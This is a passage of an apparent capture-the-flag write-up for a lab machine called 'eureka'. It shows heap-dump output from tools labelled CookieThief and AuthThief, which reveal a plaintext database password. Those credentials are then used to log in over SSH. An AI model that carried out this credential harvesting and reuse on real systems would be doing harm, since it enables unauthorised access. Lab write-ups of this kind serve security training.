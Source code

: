 ```console
[keepaliveTime = 0, password = 0sc@r190_S0l!dP@sswd, jdbcUrl = jdbc:mysql://localhost:3306/Furni_WebApp_DB, driverClassName = com.mysql.cj.jdbc.Driver, username = oscar190]

org.apache.catalina.startup.Tomcat:
[hostname = localhost]


===========================================
CookieThief
-------------
not found!

===========================================
AuthThief
-------------
java.util.LinkedHashMap$Entry:
org.springframework.security.config.annotation.authentication.configuration.InitializeUserDetailsBeanManagerConfigurer$InitializeUserDetailsManagerConfigurer = o.s.s.c.a.a.c.InitializeUserDetailsBeanManagerConfigurer$InitializeUserDetailsManagerConfigurer
org.springframework.security.config.annotation.authentication.configuration.InitializeAuthenticationProviderBeanManagerConfigurer$InitializeAuthenticationProviderManagerConfigurer = o.s.s.c.a.a.c.InitializeAuthenticationProviderBeanManagerConfigurer$InitializeAuthenticationProviderManagerConfigurer


===========================================
```

Credentials found:
- username: `oscar190`
- password: `0sc@r190_S0l!dP@sswd`

### 2.3. SSH as oscar190

Use the credentials found to logon to target, but the user flag is not here

```console
root@kali:~# ssh oscar190@10.10.11.66
Warning: Permanently added '10.10.11.66' (ED25519) to the list of known hosts.
oscar190@10.10.11.66's password:
⋮
oscar190@eureka:~$ cat user.txt
cat: user.txt: No such file or directory
oscar190@eureka:~$ id
uid=1000(oscar190) gid=1001(oscar190) groups=1001(oscar190)
oscar190@eureka:~$ ll
total 32
drwxr-x--- 5 oscar190 oscar190 4096 Apr  1 12:57 ./
drwxr-xr-x 4 root     root     4096 Aug  9  2024 ../
lrwxrwxrwx 1 oscar190 oscar190    9 Aug  7  2024 .bash_history -> /dev/null
-rw-r--r-- 1 oscar190 oscar190  220 Aug  1  2024 .bash_logout
-rw-r--r-- 1 oscar190 oscar190 3771 Apr  1 12:57 .bashrc
drwx------ 2 oscar190 oscar190 4096 Aug  1  2024 .cache/
drwx------ 3 oscar190 oscar190 4096 Aug  1  2024 .config/
drwxrwxr-x 3 oscar190 oscar190 4096 Aug  1  2024 .local/
lrwxrwxrwx 1 oscar190 oscar190    9 Aug  7  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 oscar190 oscar190  807 Aug  1  2024 .profile
```
